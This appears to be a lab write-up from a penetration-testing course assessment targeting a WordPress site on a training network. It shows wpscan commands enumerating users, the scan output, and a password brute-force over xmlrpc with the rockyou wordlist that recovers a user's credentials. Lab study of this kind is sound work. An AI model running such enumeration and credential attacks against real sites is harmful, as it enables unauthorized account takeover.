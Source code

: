 # Skills Assessment - WordPress

## Find WP Site

### DNS Mapping via `/etc/hosts`
```bash
sudo sh -c 'echo "10.129.26.19 blog.inlanefreight.local" >> /etc/hosts'
cat /etc/hosts
```

Access: http://blog.inlanefreight.local/

### Enumeration:

```bash
wpscan --url http://blog.inlanefreight.local/ -e u
```

Identify the WordPress version number:
```bash
5.1.6
```

Identify the WordPress theme in use:
```bash
twentynineteen
```

```bash
User(s) Identified:

erika
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Display Name (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Display Name (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

Charlie Wiggins
 | Found By: Author Id Brute Forcing - Display Name (Aggressive Detection)
```


Perform password attack on Xmlrpc against 2 user/s:
```bash
wpscan --url http://blog.inlanefreight.local/ --usernames admin,erika --passwords /usr/share/wordlists/rockyou.txt

Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - erika / 010203
```

